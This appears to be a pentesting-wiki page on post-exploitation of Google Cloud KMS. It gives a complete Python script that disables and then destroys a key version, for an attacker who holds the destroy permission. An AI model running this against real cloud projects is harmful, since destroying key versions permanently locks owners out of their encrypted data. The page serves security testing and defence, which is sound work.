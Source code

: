 # GCP - KMS Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## KMS

Find basic information about KMS in:

{{#ref}}
../gcp-services/gcp-kms-enum.md
{{#endref}}

### `cloudkms.cryptoKeyVersions.destroy`

An attacker with this permission could destroy a KMS version. In order to do this you first need to disable the key and then destroy it:

```python
# pip install google-cloud-kms

from google.cloud import kms

def disable_key_version(project_id, location_id, key_ring_id, key_id, key_version):
    """
    Disables a key version in Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key version name.
    key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

    # Call the API to disable the key version.
    client.update_crypto_key_version(request={'crypto_key_version': {'name': key_version_name, 'state': kms.CryptoKeyVersion.State.DISABLED}})

def destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version):
    """
    Destroys a key version in Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key version name.
    key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

    # Call the API to destroy the key version.
    client.destroy_crypto_key_version(request={'name': key_version_name})

# Example usage
project_id = 'your-project-id'
location_id = 'your-location'
key_ring_id = 'your-key-ring'
key_id = 'your-key-id'
key_version = '1'  # Version number to disable and destroy

# Disable the key version
disable_key_version(project_id, location_id, key_ring_id, key_id, key_version)

# Destroy the key version
destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version)
```